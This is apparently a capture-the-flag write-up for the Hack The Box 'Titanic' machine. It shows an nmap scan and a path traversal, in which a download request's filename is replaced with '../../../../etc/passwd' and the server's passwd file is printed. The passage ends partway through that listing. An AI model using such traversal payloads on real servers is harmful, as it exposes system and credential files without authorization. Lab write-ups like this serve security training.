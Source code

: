# Titanic

> ## namp scan

```
nmap -sCV 10.10.11.55
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 08:29 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.37s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.34 seconds
```

![image](https://github.com/user-attachments/assets/de0fc03e-a91e-445f-a93c-c33b34ed21c2)


open ``/etc/hosts``  put ``titanic.htb    10.10.11.55``

---

> ## book trip find (path traversal)

- > book tirp enter data and intercept the request find that there is file will be download with my data
  >
  > ![image](https://github.com/user-attachments/assets/6bcd04f9-72b3-4ac9-89c7-f37590857171)
  >
  > change ``453e84cf-c86b-4146-9cc8-22edd23e1448.json`` to ``../../../../etc/passwd``
  >
  > ![image](https://github.com/user-attachments/assets/4aa04b04-0350-4d20-afec-fb2a6e1a6490)
  >
  > and it done we have ``/etc/passwod`` file of this server
  >
  > ```
  > root:x:0:0:root:/root:/bin/bash
  > daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  > bin:x:2:2:bin:/bin:/usr/sbin/nologin
  > sys:x:3:3:sys:/dev:/usr/sbin/nologin
  > sync:x:4:65534:sync:/bin:/bin/sync
  > games:x:5:60:games:/usr/games:/usr/sbin/nologin
  > man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  > lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  > mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  > news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  > uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  > proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  > backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  > list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  > ```